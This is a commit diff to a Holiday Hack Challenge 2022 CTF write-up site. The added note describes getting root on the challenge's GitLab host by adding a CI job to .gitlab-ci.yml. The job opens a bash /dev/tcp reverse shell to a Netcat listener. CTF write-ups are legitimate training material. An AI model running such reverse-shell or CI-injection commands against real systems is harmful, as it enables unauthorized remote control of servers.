

Before and after one commit to crahan/HolidayHackChallenge2022, an MkDocs documentation site: the page built from docs/objectives/o7.md, in a window 1280 px wide and 900 px high, scrolled down 4842 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; before the commit the page ends 5456 px from its top, so only the background shows below that.

Commit message:
Root on one more host

```diff
--- a/docs/objectives/o7.md
+++ b/docs/objectives/o7.md
@@ -162,6 +162,13 @@
 !!! success "Answer"
     oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT
 
+!!! note "Getting root on *gitlab.flag.net.internal*"
+    The same `.gitlab-ci.yml` technique outlined above can also be used to access *gitlab.flag.net.internal*. The only caveat is that the Gitlab host isn't running an SSH server to connect to, so we'll need to use a reverse shell instead. Start by splitting the terminal window in two by running `tmux` and pressing ++ctrl+b++, followed by ++dblquote++. This gives us two command shells that we can switch between by pressing ++ctrl+b++, followed by ++up++ or ++down++.
+
+    In the first shell, start a Netcat listener using `nc -lvp 8080` to receive the incoming reverse shell connection. In the other shell, add a new job to `.gitlab-ci.yml` that initiates the reverse shell using `/bin/bash -i >& /dev/tcp/172.18.0.99/8080 0>&1`. Commit and push your changes to the Gitlab host and wait for the automation to run. After a few seconds the connection will be established and we'll have *root* acces on the Gitlab server. :sunglasses:
+
+    ![Root on Gitlab](../img/objectives/o7/root_on_gitlab.png){ class=border }
+
 
 ## Response
 
```
Also changed, not shown: docs/objectives/o10.md (+3 -3 lines), docs/img/objectives/o7/root_on_gitlab.png (added).
